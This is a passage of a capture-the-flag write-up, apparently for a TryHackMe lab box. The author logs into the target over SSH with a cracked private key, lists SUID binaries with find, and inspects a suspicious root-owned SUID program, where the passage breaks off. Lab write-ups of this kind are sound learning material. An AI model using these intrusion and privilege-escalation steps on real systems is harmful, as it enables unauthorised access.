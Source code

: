 With the password cracked, I could then use the key to connect to the server.

```bash
$ ssh barry@target -i id_rsa 
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-210-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

34 packages can be updated.
16 of these updates are security updates.
To see these additional updates run: apt list --upgradable



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

barry@mustacchio:~$ 
```

## Getting Root

I already had the user flag, so I tried to escalate to root. 

I looked for files with [SUID](https://blog.tryhackme.com/linux-privilege-escalation-suid/) set. 

```bash
barry@mustacchio:~$ find / -perm /u=s 2>/dev/null 
...
/usr/bin/sudo
/usr/bin/newuidmap
/usr/bin/gpasswd
/home/joe/live_log
/bin/ping
/bin/ping6
...
```

The `live_log` file in joe's home folder looked interesting. 

```bash
barry@mustacchio:~$ ls -la /home/joe/live_log 
-rwsr-xr-x 1 root root 16832 Jun 12 15:48 /home/joe/live_log


barry@mustacchio:~$ strings /home/joe/live_log
/lib64/ld-linux-x86-64.so.2
libc.so.6            
setuid        
printf                                
system            
__cxa_finalize                
setgid   
GLIBC_2.2.5         
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
Live Nginx Log Reader
```